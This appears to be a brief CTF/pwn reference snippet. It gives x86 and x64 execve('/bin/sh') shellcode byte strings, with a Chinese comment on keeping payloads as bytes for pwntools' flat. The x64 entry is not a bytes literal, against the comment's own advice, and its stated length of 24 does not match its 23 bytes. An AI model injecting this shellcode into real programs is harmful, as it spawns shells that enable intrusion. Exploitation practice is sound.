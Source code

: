 
# 一定要用 b'' 或 encode('latin')。否则flat时会用 utf格式编码字符就不对了
```sh
# https://github.com/yyanyi213/pwn/blob/master/shellcode
# len -- 21
shellcode_x86 = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
# len -- 24
shellcode_x64 = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```
